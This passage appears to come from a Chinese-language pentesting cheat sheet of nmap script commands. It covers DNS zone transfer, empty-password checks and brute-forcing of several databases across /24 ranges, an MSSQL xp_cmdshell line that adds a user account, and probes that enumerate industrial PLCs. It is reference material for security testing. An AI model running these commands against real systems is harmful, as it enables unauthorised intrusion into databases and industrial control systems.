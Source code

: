 - dns
    - 域传送 : `nmap -p 53 --script dns-zone-transfer.nse -v <target ip>`

---

## 数据库

- MySQL
    - 信息收集 : `nmap -p3306 --script mysql-enum <target ip>`
    - mysql 扫描 root 空密码 : `nmap -p 3306 --script mysql-empty-password.nse -v <target ip>`
    - mysql root 弱口令简单爆破 : `nmap -p 3306 --script mysql-brute.nse -v <target ip>`

- mssql
    - 信息收集 : `nmap -p 1433 --script ms-sql-info --script-args mssql.instance-port=1433 <target ip>`
    - 扫描 sa 空密码 : `nmap -p 1433 --script ms-sql-empty-password.nse -v <target ip>/24`
    - sa 弱口令爆破 : `nmap -p 1433 --script ms-sql-brute.nse -v <target ip>/24`
    - 利用 xp_cmdshell,远程执行系统命令 : `nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd=net user test test add <target ip>/24`

- postgresql
    - 爆破 : `nmap -p 5432 --script pgsql-brute -v <target ip>/24`

- oracle
    - 信息收集 : `nmap --script oracle-tns-version -p 1521 <target ip>`
    - 爆破 : `nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL  -v <target ip>/24`
    - 爆破 : `nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL -v <target ip>/24`

- mongdb
    - 爆破 : `nmap -p 27017  --script mongodb-brute <target ip>/24`

- redis
    - 爆破 : `nmap -p 6379 --script redis-brute.nse <target ip>/24`

---

## 工控探测

- S7
    - 探测 : `nmap -p 102 --script s7-info.nse <target ip>`

- modbus
    - 探测 : `nmap -sV -p 502 --script modbus-discover <target ip>`

- EthernetIP
    - 探测 : `nmap -p 44818 --script enip-info.nse <target ip>`

- NiagaraFox
    - 探测 : `nmap -p 1911 --script fox-info <target ip>`

该项目提供大量探测脚本 [digitalbond/Redpoint](https://github.com/digitalbond/Redpoint)
- 识别和枚举 BACnet 设备 : `nmap --script BACnet-discover-enumerate.nse -sU  -p 47808 <target ip>`
- 探测 CoDeSyS V2 控制器 : `nmap -p 1200,2455 --script codesys-v2-discover <target ip>`
- 探测 EthernetIP 设备 : `nmap -p 44818 --script enip-enumerate.nse <target ip>`
- 识别并枚举施耐德电气 Modicon PLC : `nmap --script modicon-info -p 502 <target ip>`
- 识别并枚举 Omron PLC
    - `nmap --script ormontcp-info -p 9600 <target ip>`
    - `nmap --script ormonudp-info -sU -p 9600 <target ip>`
- 识别并枚举启用 PC Worx 协议的 PLC : `nmap --script pcworx-info -p 1962 <target ip>`
- 识别并枚举支持 ProConOS 的 PLC : `nmap --script proconos-info -p 20547 <target ip>`
- 探测 S7 : `nmap -p 102 --script s7-enumerate.nse <target ip>`
